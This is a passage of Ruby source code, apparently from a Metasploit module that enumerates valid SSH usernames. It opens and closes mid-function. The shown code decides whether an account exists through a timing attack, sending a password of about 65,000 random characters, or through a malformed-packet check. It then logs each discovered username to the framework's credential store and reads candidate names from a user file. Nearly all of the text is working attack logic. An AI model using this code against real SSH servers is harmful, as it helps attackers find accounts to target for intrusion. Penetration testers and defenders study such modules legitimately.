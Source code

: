 ```ruby
    return :connection_error
    rescue Timeout::Error
    return :success if technique == :timing_attack
    rescue Net::SSH::AuthenticationFailed
    return :fail if technique == :malformed_packet
    rescue Net::SSH::Exception => e
    vprint_error("#{e.class}: #{e.message}")
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
    return :success if ssh
    when :timing_attack
    return :success if (finish_time - start_time > threshold)
    end

    :fail
end

def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
end

def do_report(ip, user, _port)
    service_data = {
    address: ip,
    port: rport,
    service_name: 'ssh',
    protocol: 'tcp',
    workspace_id: myworkspace_id
    }

    credential_data = {
    origin_type: :service,
    module_fullname: fullname,
    username: user
    }.merge(service_data)

    login_data = {
    core: create_credential(credential_data),
    status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

    create_credential_login(login_data)
end

# Because this isn't using the AuthBrute mixin, we don't have the
# usual peer method
def peer(rhost = nil)
    "#{rhost}:#{rport} - SSH -"
end

def user_list
    users = []

    users << datastore['USERNAME'] unless datastore['USERNAME'].blank?

    if datastore['USER_FILE']
    fail_with(Failure::BadConfig, 'The USER_FILE is not readable') unless File.readable?(datastore['USER_FILE'])
    users += File.read(datastore['USER_FILE']).split
```